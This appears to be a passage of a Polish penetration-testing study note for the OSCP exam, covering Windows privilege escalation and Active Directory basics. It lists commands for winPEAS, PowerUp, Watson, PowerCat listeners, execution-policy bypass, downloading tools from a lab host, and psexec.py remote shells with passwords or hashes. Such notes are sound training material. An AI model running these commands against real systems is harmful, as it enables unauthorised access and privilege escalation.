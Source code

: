 <p>#winpeas, tutaj <strong>lab</strong><br>#windows-privesc-check i <a href="https://3haker.pl/automated-enumeration-windows-privesc-check/">oscp</a> opis: windows-privesc-check2.exe –dump -G (dla listy Grup)<br>#<a href="https://github.com/61106960/adPEAS">adPEAS</a><br><strong>###Accesschk.exe###</strong><br>#<a href="https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk">pobrać</a> z tej strony plik .exe ok 1MB: https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk<br>#przejść do folderu w którym jest i odpalać: ./accesschk.exe Komenda<br>#Certify.exe find /vulnerable /currentuser<br>#Certify.exe find (w cmd.exe)<br><strong>###PowerUp###</strong><br>#cmd&gt; powershell -executionpolicy bypass<br>#PS&gt; Import-Module C:\temp\powerup.ps1<br>#PS&gt; Invoke-AllChecks<br>#&gt;Get-ModifiableServiceFile (pokaze binarki ktore user moze modyfikowac)<br>#czasami domyślnie robi konto i dodaje jako administratora: john / Password123!<br><strong>###jaws_enum.ps1###</strong><br>#powershell -ep bypass<br>#.\jaws_enum.ps1 -OutputFilename jaws-enum.txt<br><strong>###winpeas.bat – kiedy exe nie dziala np. jak nie ma na.NET v4###</strong><br>#winpeas.bat  (.bat jednak daje mniej niz exe!!) i win_enum.bat świetnie działają, odpal przez cmd<br>#na Kalin wszystkie binarki na 64 i 32 i obsucated sa w:  /opt/PEASS-ng/binaries/<br>#oscp23 pobranie z kaliego binarki: PS: iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe<br>#szukaj w wynikach winpeas: transcripts history, NTLM, Current user fajnie pokazuje userow i ich grupy, password files  i inne na czerwono<br>#oscp23 poleca też uruchomic: ./Seatbelt.exe -group=all<br><strong>###Sherlock.ps1 i Watson.exe###</strong><br>#szukaja typowych podatności CVE<br>#import-module .\Sherlock.ps1 #&gt; Find-AllVulns<br>#cmd: Watson.exe<br>#import-module ./Invoke-Watson #&gt; invoke-watson<br>#jak Watson wykryje CVE-2019-1388 to możesz eskalacja wg <a href="https://github.com/jas502n/CVE-2019-1388">github</a> i <a href="https://3haker.pl/udemy-kurs-active-directory/">opis</a> (bedziesz mógł dodac nowego usera jako lokalnego admina)<br><strong>###PowerCat.ps1###</strong> <a href="https://github.com/besimorhino/powercat/blob/master/powercat.ps1">instr</a><br>#import-module .\powercat.ps1<br>#&gt; powercat -l -p 443 -Verbose<br><strong>###PsExec###</strong><br>#psexec.py Administrator@$IP cmd.exe (odpalamy z Kaliego, chcemy uruchomić cmd.exe na Windowsie, musi mieć SMB i musimy znać hasła, lub hash)<br>#psexec.py offsec:lab@$IP   (wersja z haslem, ale da tylko info o userze)<br>#w msfconsole jest też: exploit/windows/smb/psexec<br>#jak psexec .py nie działa to spróbuj: <strong>smbexec.py</strong>  LUB  <strong>winexec.py</strong><br><strong>###windows-exploit-syggester.py NG###</strong><br>#nowa wersja bo stara ie wspirana: wes.py z <a href="https://github.com/bitsadmin/wesng">git</a><br>#Na Kalim: wes.py –update  #&gt;    systeminfo &gt; systeminfo.txt (na Windows  lub po prostu skopiuj zawartość) #&gt;  ./wes.py sysinfo.txt  LUB  ./wes.py -e sysinfo.txt</p>



<h2 class="wp-block-heading"><span class="ez-toc-section" id="Active_Directory" ez-toc-data-id="#Active_Directory"></span><strong>Active Directory</strong><span class="ez-toc-section-end"></span></h2>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="Podstawy-2" ez-toc-data-id="#Podstawy-2"></span>Podstawy<span class="ez-toc-section-end"></span></h4>



<p><br>#xfreerdp /u:stephanie /d:corp.com /v:$IP<br>#<mark style="background-color:#b9ffa9" class="has-inline-color">rdesktop $IP</mark> – od azu poznasz domene i OS<br>#skrypt enumeration.ps1 (albo w Powershell ISE ; <mark style="background-color:#f39fff" class="has-inline-color">oscp23</mark>) który odpalamy powershell -ep bypass i który robi nam ścieżke do LDAP (na wzór: LDAP://DC1.corp.com/DC=corp,DC=com) i listuje wszystkie obiekty (ps a <a href="https://3haker.pl/skrypt-do-listowania-wszystkich-obiektow-ad/">tutaj</a> bardziej robudowana wersja) – taki własny zalążek PowerView.</p>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="Domena_i_kontroler_domeny" ez-toc-data-id="#Domena_i_kontroler_domeny"></span>Domena i kontroler domeny<span class="ez-toc-section-end"></span></h4>

